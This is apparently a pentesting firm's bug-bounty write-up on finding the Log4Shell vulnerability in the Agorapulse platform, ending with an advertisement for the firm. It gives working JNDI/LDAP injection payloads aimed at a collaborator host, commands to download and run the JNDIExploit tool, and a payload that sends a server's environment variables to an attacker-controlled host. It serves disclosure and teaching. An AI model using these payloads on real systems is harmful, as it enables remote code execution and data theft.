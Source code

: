 # LOG4J on Agorapulse



Log4j is a logging framework for Java applications. It is a popular choice for developers looking for a simple and flexible logging solution. However, Log4j has been found to be vulnerable to a number of security threats. The log4j library has recently been found to contain a serious vulnerability that went by the moniker of log4shell and gained widespread attention. This vulnerability allows unauthenticated remote code execution on vulnerable servers and may be exploited to expose sensitive information. For example, if an attacker can inject malicious code into a Log4j logging statement, they can execute any arbitrary commands on the vulnerable server.

For more information on Log4j security, see the following resources:

- OWASP Log4j Cheat Sheet
- Log4j Vulnerabilities and Exposures
- Secure Log4j Usage

Log4Shell vulnerability is a critical vulnerability, affecting Apache Log4j 2 versions 2.0 to 2.14.1, as identified by Chen Zhaojun of the Alibaba Cloud Security Team. NIST published a critical CVE in the National Vulnerability Database on December 10th, 2021, naming this as CVE-2021–44228. Apache Software Foundation assigned the maximum CVSS severity rating of 10.

This disclosure came storming into the security industry and a havoc was created because all companies implementing this vulnerable framework were exploitable by this critical vulnerability. One can get an idea from the analytics published by hackerone which say , “Hackers have submitted over 2,000 Log4Shell reports to over 400 of our customers. The majority of reports were made in the first 14 days after the public disclosure of Log4 Shell" . Almost the same number of reports were submitted on bugcrowd as well with over _300 reports_ submitted in a single day.


## What is agorapulse:

Agorapulse basically provides everything an organization  could possibly need for social media marketing and monitoring and management.focusing on social media platforms like facebook,linkedin and twitter,agorapulse provides a comprehensive and a compact platform for companies for their marketing strategies while also keeping it under the budget radar.The software is used to create & schedule social media content, engage audiences, listen for key terms, and analyze social media performance.


## How we found log4js on agorapulse:

It was the middle of winter of 2021 when the news of log4j vulnerability broke out in the cyber security industry. And as the norm goes, it got all the security researchers on their heels. As the clock was ticking our company decided to focus wholly on exploiting this vulnerability.

Our company had many targets to focus on and scan for this vulnerability. So the options were open. One of those available targets was agorapulse. We plunged into research mode and figured out how we were going to scan for this vulnerability, Due to the fact that the vulnerability could be present on any endpoint, any request it was really hard to focus on one part of an application. So decided to scrap payloads all over the web application and wait for any pingbacks, To do that we We identified features and functionalities where we could use our payloads.

As the application was pretty vast with multiple features, we had to stay organized. We used a simple and comprehensive approach of pasting payloads everywhere in the application and as said above to keep things organized we used functionality-specific identifiers in the payloads. 

For example, We used 

If we were using a payload in profile-picture field we would use `${jndi:ldap://profilepic.<Your-Burp-Collab-URL>/a}` and if we were pasting a payload in messege box we used `${jndi:ldap://inbox.<Your-Burp-Collab-URL>/a}` and so on, It easily allowed us to indentify the vulnerable request to trigger the vulnerability.


On the other hand we also played it safe, using a payload that was not at all harmful to the client i,e did not result in any denial of service attack or executing any malicious coommands inside the application. The purpose of the payload was just to give us a pingback so the place of vulnerability could be identified. So we devised the following safe payload to identify the dns pingbacks : `${jndi:ldap://<Your-Burp-Collab-URL>/a}` .

So now the identification process began and after a while we received two pingbacks. One of the received was a false pingback. But next up we had a dns pingback that identified the presence of Log4shell vulnerability.


## Summarizing the Steps

So the steps to reproduce were as follows

- Start Burp and create a new burp collaborator Client
- Now Login to agorapulse and click on `Publish` to publish a new post.

1.png

- Now use your burp collaborator to make a new payload `${jndi:ldap://<Your-Burp-Collab-URL>/a}`, and paste it in the Post Section.
- Now Select any profile from the left side and Publish the POST

2.png

- On going back to burp collaborator Client you will see a Pingback on it
3.png

- 
  
## Demonstration of Impact ( Remote Code Execution )


As mentioned in earlier sections the successful exploitation could lead to RCE. We refrained from doing any such action which could lead to any kind of disruption in services to the vulnerable services. So, we decide to prove the impact by extacting the global PATH variable to prove the real impact of the vulnerability and we needed to setup and JNDI server for that, So we quickly setup an amazon ec2 and setup an JNDI server using the following approach.

- SSH to your Server
``
ssh user@<your-ip>
```

- Download and Install JNDI Server

```
wget https://github.com/feihong-cs/JNDIExploit/releases/download/v1.2/JNDIExploit.v1.2.zip
unzip JNDIExploit.v1.2.zip
```
-Run the Exploit and you should see the following output on screen

```
java -jar JNDIExploit-1.2-SNAPSHOT.jar -i <your-ip> -p 8888
```

After the following commands we had our JDNI server running on our `ServerIP:8888`

As we went back to Agorapulse and make a another post with this Payload : `${jndi:ldap://[ServerIp]:1389/${env:PATH}`

  
we were able just able to extract the environment variables of the server.


4.png
  

We stopped right after extracting the path variables of the vulnerable server just to keep the exploitation ethical.

## Response of Agora Team

Submitting the report to the agora team, we got their first response in a day. They were responsive and concerned with the security of their online assets. They fixed the bug in a on the same day and rewarded our finding.

After their fix was implemented we , The team requested an re-check on the vulnerability and we tried various payloads and bypasses to conform if the fix was working well. But we were unable to bypass the fix and it was working fine and we confirmed the fix.

  
  


## About us

Snapsec is a team of security experts specialized in providing pentesting and other security services to secure your online assets. We have a specialized testing methodology that ensures in-depth testing of your business logic and other latest vulnerabilities. 

 If you are looking for a team that values your security and ensures that you are fully secure against online security threats, feel free to get in touch with us #[support@snapsec.co](mailto:support@snapsec.co)
 
 
